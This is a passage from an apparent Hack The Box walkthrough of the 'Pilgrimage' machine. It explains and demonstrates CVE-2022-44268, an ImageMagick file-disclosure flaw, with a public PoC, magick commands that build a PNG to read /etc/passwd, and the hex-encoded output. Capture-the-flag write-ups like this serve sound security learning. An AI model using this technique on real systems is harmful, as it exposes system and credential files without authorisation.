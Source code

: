![magick](Thu-30-2023_12-13.png)

Search for "*imagemagick 7.1.0 exploit*", I find [CVE-2022-44268.](https://nvd.nist.gov/vuln/detail/CVE-2022-44268) This version of ImageMagick has a file disclosure vulnerability. There is a lovely [blogpost](https://www.metabaseq.com/imagemagick-zero-days/) that explains in depth how this vulnerability works. I would highly recommend reading it if you want a better understanding of this vulnerability. 

When ImageMagick parses a PNG file, like in a resize action (which is what the site is doing) the image can be embedded with a file. Basically how it works is that an attacker can take a `png` image and add a textual chunk type (tEXt). A tEXt chunk is a piece of a png file used for including metadata. Here's a list of [PNGTags.](https://exiftool.org/TagNames/PNG.html) These tEXt chunks have a keyword and a text string. If the keyword is the string "profile" then ImageMagick will treat the text string as a filename and will attempt to load the contents of that file into a [raw profile type](https://exiftool.org/TagNames/PNG.html#TextualData). 

There is a [Github POC](https://github.com/voidz0r/CVE-2022-44268) here from voidz0rthat makes this nice and easy.

I first test this PoC by trying to include the `/etc/passwd` file from my machine. I use the vulnerable `magick` binary from the pilgrimage `.git` folder. This works! And I get my `/etc/passwd` output in hex format in the metadata of the output.png file. I can also see this with `exiftool`.
```bash
┌──(kali㉿Kali)──[12:21:31]──[~/htb/Machines/Pilgrimage/magick-poc]
└─$ cargo run "/etc/passwd"                                   
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `target/debug/cve-2022-44268 /etc/passwd`
                                                                                                                              
┌──(kali㉿Kali)──[12:21:35]──[~/htb/Machines/Pilgrimage/magick-poc]
└─$ ../gitdump/magick convert image.png -resize 50% output.png
convert: keyword "Raw profile type ": bad character '0x20' `output.png @ warning/png.c/MagickPNGWarningHandler/1750.
                                                                                                                              
┌──(kali㉿Kali)──[12:21:41]──[~/htb/Machines/Pilgrimage/magick-poc]
└─$ ../gitdump/magick identify -verbose output.png            
<...SNIP...>
    Raw profile type: 

    4975
726f6f743a783a303a303a726f6f743a2f726f6f743a2f7573722f62696e2f7a73680a64
61656d6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362
696e2f6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f73
62696e2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f
<...SNIP...>
```
Now I take my malicious "image.png" and upload it to the site. I download the resized image and look at it with `magick` and there's the hex encoded file. I copy the output from the `magick identify` command and write it to a file. I then use `tr` to remove all the line breaks, and then copy the new file into my clipboard.
```bash
# Paste in hex output
vim my.passwd

# Remove linebreaks
cat my.passwd | tr -d '\n' > tmp

# Replace original file
mv tmp my.passwd

```